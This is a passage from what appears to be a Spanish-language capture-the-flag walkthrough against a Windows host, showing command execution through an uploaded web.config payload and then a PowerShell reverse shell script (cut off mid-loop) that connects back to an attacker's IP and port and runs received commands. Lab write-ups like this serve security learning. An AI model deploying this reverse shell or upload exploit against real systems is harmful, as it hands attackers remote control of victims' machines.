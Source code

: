 Ahora si nos vamos a la siguiente ruta para cargar el archivo `web.config` con nuestro `payload`.

```
URL = http://<IP>/Subiditosdetono/web.config
```

Si entramos ahi veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Vemos que el archivo esta cargando de forma correcta, ahora vamos a probar a meter un comando, por ejemplo `whoami` y veremos esto:

```
win-4qu3qnhnk7e\info
```

Vemos que esta funcionando de forma correcta, por lo que vamos a ingresar el siguiente `payload` para obtener una `shell` con la maquina victima.

## Escalate user win-4qu3qnhnk7e\info

### Opcion 1 (reverse shell .ps1)

Podemos crear este codigo en `.ps1`:

```shell
nano shell.ps1
```

Dentro del nano:

```powershell
$LHOST = "<IP>"  # Cambia esto por tu IP
$LPORT = <PORT>            # Cambia esto por el puerto de escucha

$client = New-Object System.Net.Sockets.TCPClient($LHOST, $LPORT)
$stream = $client.GetStream()
$buffer = New-Object System.Byte[] 1024
$encoding = New-Object System.Text.ASCIIEncoding

do {
    $stream.Read($buffer, 0, $buffer.Length) | Out-Null
    $cmd = $encoding.GetString($buffer).Trim()
    if ($cmd -eq "exit") { break }
    $output = (Invoke-Expression -Command $cmd 2>&1 | Out-String)
    $response = $encoding.GetBytes($output + "`nPS > ")
    $stream.Write($response, 0, $response.Length)
```